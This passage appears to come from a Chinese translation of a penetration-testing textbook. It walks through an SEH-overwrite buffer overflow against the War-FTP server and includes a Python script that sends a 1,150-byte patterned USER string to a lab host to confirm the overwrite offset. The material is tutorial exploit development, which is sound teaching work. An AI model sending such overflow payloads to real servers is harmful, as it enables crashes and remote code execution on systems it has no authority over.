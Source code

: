 ![指向下一个 SEH 记录的指针中的循环模式](img/httpatomoreillycomsourcenostarchimages2030560.png.jpg)图 18-11. 指向下一个 SEH 记录的指针中的循环模式

如前所述，SEH 条目是一个八字节长的链表，由指向链中下一个 SEH 记录的指针和栈上处理程序的内存地址组成。如果我们能够将 ESP+8 加载到 EIP 中，就可以执行一些 shellcode。不幸的是，在遇到 SEH 条目之前，看起来我们只有四个字节可供使用，但让我们一个问题一个问题地处理。我们需要找到一种可行的方式来获取我们的 shellcode，然后再返回去让我们的 shellcode 适应可用的空间。

在继续之前，让我们验证一下我们的偏移量是否正确，如示例 18-3 所示。

示例 18-3. 验证覆盖偏移量

```
#!/usr/bin/python
import socket
buffer = "A" * 569 + "B" * 4 + "C" * 4 + "D" * 573 ❶
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.close()
```

编辑你的漏洞利用程序，发送 569 个*A*，接着是 4 个*B*，再接着是 4 个*C*，最后以 573 个*D*结束，形成 1,150 字节的攻击字符串，位置在❶。重新启动 War-FTP 并再次运行漏洞利用程序。我们在图 18-12 中看到，SEH 被我们的 4 个*C*覆盖。
